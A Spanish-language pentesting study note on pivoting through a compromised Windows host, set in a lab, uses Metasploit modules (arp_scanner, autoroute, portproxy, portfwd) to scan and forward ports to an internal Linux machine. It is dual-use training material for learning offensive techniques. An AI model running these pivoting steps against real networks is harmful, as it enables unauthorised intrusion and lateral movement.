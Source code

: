 ```yaml
---
title: "Pivoting Entornos Windows"
layout: "single"
category: "Pivoting"
slug: "pivoting/pivoting-entornos-windows"
date: "2025-09-30"
---
```


### Metasploit
Teniendo el siguiente laboratorio, queremos llegar a lanzar un escaneo a la máquina línux, previamente comprometiendo y utilizando la máquinas windows como "puente".

Partimos de que hemos comprometido la primera máquina (Windows), y tenemos establecida con ella una sesión de *meterpreter*.

| Int red |  Kali Linux  |      Windows |       Linux |
| :------ | :----------: | -----------: | ----------: |
| Eth0    | 192.168.1.20 | 192.168.1.40 | 10.10.10.30 |
| Eth1    |              |  10.10.10.23 |             |

En caso de tener comprometida la máquina pero no tengamos una sesión de meterpreter, lo ideal es generar un payload con msfvenom, compartirlo con la máquina y lanzarlo (mientras estamos a la escucha con metasploit).
![[Metasploit y MsfVenom#Payload sesión meterpreter Windows]]

### 1º - Identificar la segunda máquina víctima
```bash
### IDENTIFICAR LOS ADAPTADORES DE RED DE LA WINDOWS
ipconfig

### MANDAR LA SESIÓN AL SEGUNDO PLANO
Ctrl + Z

### IDENTIFICAR IP DEL LINUX
use windows/gather/arp_scanner
# RHOSTS (IP y máscara de la interfaz sobre la que queremos pivotar)
Ejemplo: set RHOSTS 10.10.10.23/24
# SESSIONS (La sesión que dejamos en background anteriormente)
set SESSION 1
run
```

### 2º - Enrutar trafico
Teniendo los datos anteriores (ip y máscara de la 2ª víctima), ejecutamos el autoroute y le decimos la sesión sobre la que queremos enrutar el tráfico

```bash
use multi/manage/autoroute
set SESSION 1
```

### 3º - Port Forwarding
Ya tenemos el tráfico enrutado y estariamos listos para comprometer la segunda máquina. Podemos lanzar un breve escaneo para luego ver que puerto haremos *port forwarding*.
```bash
# Primero identificamos los puertos abiertos "rapidamente"
use scanner/portscan/tcp

# luego hacemos un escaneo de vulnerabilidades y ya por ultimo el port forwarding para un gran escaneo. sino no funciona bien, no mestra los detalles y es extremadamente lento
db_nmap -p <puertos> -sV <IP>
```

#### OPCION 1
```bash
use windows/manage/portproxy
###OPCIONES NECESARIAS
CONNECT_ADDRESS <IP víctima> # en este caso 10.10.10.30
CONNECT_PORT <Puerto> # El puerto que nos interese traernos
LOCAL_ADDRESS 0.0.0.0
LOCAL_PORT <Puerto local> # Puerto local al que queramos traernos el CONNECT_PORT
SESSION #Sesion de meterpreter en la que tenemos al windows comprometido
```

#### OPCION 2 (MAS SENCILLA)

```bash
### elegir la sesion que nos interesa
sessions -l (para listar la sesion)
session -i <num_sesion>

### reenvio de puerto
portfwd add -l <puerto_atacante> -p <puerto_victima_remoto> -r <ip_victima>

```


Una vez realizado, supongamos que nos hemos traído el puerto 80 de Linux al 5000. Podemos por ejemplo abrir un navegador y poner: 
http://192.168.1.40:5000 (Es decir la IP del windows y el puerto elegido).


